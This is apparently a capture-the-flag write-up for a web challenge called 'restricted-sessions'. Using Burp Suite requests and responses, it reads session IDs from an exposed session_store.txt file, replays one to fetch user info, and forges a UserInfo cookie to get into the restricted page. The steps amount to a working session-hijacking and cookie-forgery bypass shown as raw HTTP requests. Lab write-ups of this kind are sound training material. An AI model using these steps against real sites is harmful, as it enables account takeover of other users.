 link : http://34.77.37.110/restricted-sessions/ 

![image](https://user-images.githubusercontent.com/67979878/127423247-a52a7868-90c4-4ad8-83e9-799ac239cb32.png)

let's use burpsuite so we can see the request and response and see what we can do .

```
GET /restricted-sessions/ HTTP/1.1
Host: 34.77.37.110
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

the response body have an interesting piece of code

```
   <script type="text/javascript">

      if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
    </script>

```
so if cookie is not empty it will retrieve data from /getcurrentuserinfo.php 

note :The $.post() method loads data from the server using a HTTP POST request.


sending the reqeust in the repeater and add a cookie for testing 

```
GET /restricted-sessions/ HTTP/1.1
Host: 34.77.37.110
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
cookie:PHPSESSID=test
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 2

````
and here is the result :
```
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Thu, 29 Jul 2021 02:09:37 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 43


Session not found in data/session_store.txt
```
### so let's visit this /data/session_store.txt

```
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk

```
it seems those are valid cookies values . let's make the same previous request with any valid cookie :

```
GET /restricted-sessions/ HTTP/1.1
Host: 34.77.37.110
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
cookie:PHPSESSID=11l3ztdo96ritoitf9fr092ru3
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

response body :
`UserInfo Cookie don't have the username , Validation failed `

so it seems the cookie needs UserInfo :( 


![Alt Text](https://media.giphy.com/media/l1KVaj5UcbHwrBMqI/giphy.gif)

we see in the js code that when there is a valid cookie it will send post request to the /getcurrentuserinfo.php . so let's make it our self by sending it as a parameter 

```
POST /restricted-sessions/getcurrentuserinfo.php HTTP/1.1
Host: 34.77.37.110
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
PHPSESSID=11l3ztdo96ritoitf9fr092ru3

```
resposne body :

```
{"name":"mary","email":"mary@example.com","session_id":"11l3ztdo96ritoitf9fr092ru3"}

```

### now we have  a UserInfo we can use in the get request to the main page !



```
GET /restricted-sessions/ HTTP/1.1
Host: 34.77.37.110
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
cookie:PHPSESSID=11l3ztdo96ritoitf9fr092ru3;UserInfo=mary
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

```
showing response in browser :

![image](https://user-images.githubusercontent.com/67979878/127428308-eb6defef-be0d-47f9-a836-9e56023a9969.png)




![Alt Text](https://media.giphy.com/media/1BFEEIo4h1BuTH8eqP/giphy.gif)




